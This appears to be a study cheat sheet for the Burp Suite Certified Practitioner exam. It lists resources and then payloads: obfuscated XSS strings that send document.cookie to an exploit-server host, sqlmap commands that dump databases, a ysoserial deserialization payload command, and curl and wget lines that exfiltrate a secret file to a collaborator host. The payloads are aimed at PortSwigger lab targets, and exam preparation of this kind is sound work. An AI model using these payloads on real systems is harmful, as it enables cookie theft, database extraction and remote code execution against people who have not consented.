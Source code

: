 # Resources
- [botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/main/README.md)
- [DingyShark/BurpSuiteCertifiedPractitioner](https://github.com/DingyShark/BurpSuiteCertifiedPractitioner?tab=readme-ov-file)
- [micahvandeusen - burp-suite-certified-practitioner-exam-review](https://micahvandeusen.com/burp-suite-certified-practitioner-exam-review/)
- [ChrisM-X/PortSwigger-Academy-CheatSheets](https://github.com/ChrisM-X/PortSwigger-Academy-CheatSheets/tree/master/_Prepare%20For%20Burp%20Suite%20Exam)
- [pawlokk/burp-exam-notes/blob/main/methodology.txt](https://github.com/pawlokk/burp-exam-notes/blob/main/methodology.txt)
- [bscpcheatsheet.gitbook.io/exam](https://bscpcheatsheet.gitbook.io/exam)
- [Notes template](https://www.y-security.de/news-en/looking-at-the-portswigger-burp-suite-certification/index.html)
# Payload processing
- [Obfuscating attacks using encodings](https://portswigger.net/web-security/essential-skills/obfuscating-attacks-using-encodings)
# XSS
```html
"-(window["document"]["location"]="https://exploit-server%2eweb-security-academy%2enet/?"+window["document"]["cookie"])-"
"}; window['docu'+'ment']['loc'+'ation']='https://subdomain%2eexploit-server%2enet/?'+(window['docu'+'ment']['coo'+'kie']);//
<script>
location ='https://url.web-security-academy.net/?SearchTerm=%22-%28window%5B%22document%22%5D%5B%22location%22%5D%3D%22https%3A%2F%2Fexploit%252eexploit-server%252enet%2F%3F%22%2Bwindow%5B%22document%22%5D%5B%22cookie%22%5D%29-%22';
</script>
```

# SQLi
```bash
sqlmap -u "url" --cookie="cookies" --batch --dbs --random-agent -p "parameter"
sqlmap -u "url" --cookie="cookies" --batch --dbs --random-agent -p "parameter" --proxy="http://127.0.0.1:8080/" --level=3
sqlmap -u "url" --cookie="cookies" --batch -D database -T table --random-agent -p "parameter" --proxy="http://127.0.0.1:8080/" --level=3 --dump
```

# Insecure Deserialization
- Command
```bash
java -jar ysoserial-all.jar [payload] "command"
```
- Base64 encode the payload piping the output to `base64 -w 0`
   - For MacOS use the `gbase64` command which accepts the -w flag

```bash
java -jar ysoserial-all.jar [payload] "command" | gzip -c | base64 -w 0
```
# Command for data exfiltration
```bash
curl --data @/home/carlos/secret subdomain.collaborator.net
wget --post-file /home/carlos/secret subdomain.collaborator.net
```
